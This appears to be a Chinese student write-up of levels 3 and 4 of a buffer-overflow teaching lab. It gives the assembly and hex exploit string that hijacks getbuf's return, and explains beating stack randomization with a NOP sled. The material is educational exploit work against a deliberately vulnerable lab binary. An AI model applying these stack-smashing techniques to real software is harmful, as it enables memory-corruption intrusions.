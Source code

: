 **level3**

​	level3需要将getbuf()的返回值设为cookie，然后继续执行test()，并恢复栈。与level2类似，level3的攻击代码需要将汇编代码转换成机器代码。

​	注意到test()中有一个函数uniqueval()，对其进行反汇编查看。

![图片9](C:\Users\86139\Desktop\jiji\lab3\图片9.png)

![图片10](C:\Users\86139\Desktop\jiji\lab3\图片10.png)

​	我们可以查看random函数和srandom函数。得知在process id不变化时，会生成相同的随机数。

​	我们要做的是：更改getbuf的返回地址，使其返回到攻击代码的位置；攻击代码将eax修改为cookie，将ebp修改为调用getbuf之前的值，返回到test()中getbuf()结束后的位置。

```
movl $0x59ea0fda, %eax
movl $0x55683670, %ebp
pushl $0x8048c8d
ret
```

​	上面的指令中，0x55683670和0x8048c8d都是通过反汇编test()得到的。

![图片11](C:\Users\86139\Desktop\jiji\lab3\图片11.png)

答案如下：

```
b8 da 0f ea 59	//movl $0x59ea0fda, %eax
bd 70 36 68 55	//movl $0x55683670, %ebp
68 8d 8c 04 08	//pushl $0x8048c8d
c3	//ret
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
1d 36 68 55
```

**level4**

​	level4与前四个level有很大的区别。在level4中，需要加入命令行参数-n，以进入函数testn()和getbufn()。这两个函数与之前没有什么区别，但是栈的位置不再固定。我们需要输入5次攻击字符串，每次输入栈的位置都会变化。这就是知名的“栈随机化”ASLR。而对付ASLR的方法就是nop sled。

​	ASLR会使栈在一个范围内变化。只要知道范围，用nop(90)填充这个范围即可。

![图片12](C:\Users\86139\Desktop\jiji\lab3\图片12.png)

![图片13](C:\Users\86139\Desktop\jiji\lab3\图片13.png)

​	从getbufn()的反汇编可以看出，字符串的起始地址是-0x2c2(%ebp)，而返回地址在0x4(%ebp)，因此要填充710 bytes，然后用4 bytes覆盖返回地址。

​	运行程序，可以看到字符串起始地址在0x5568331e\~0x556833fe间。取最大值（只要在nop中其实就可以，最小的取值是0x556833fe，也最保险）用于覆盖返回地址。由于指令从低地址向高地址执行，只要返回地址在nop中，就会滑到攻击指令。

![图片14](C:\Users\86139\Desktop\jiji\lab3\图片14.png)
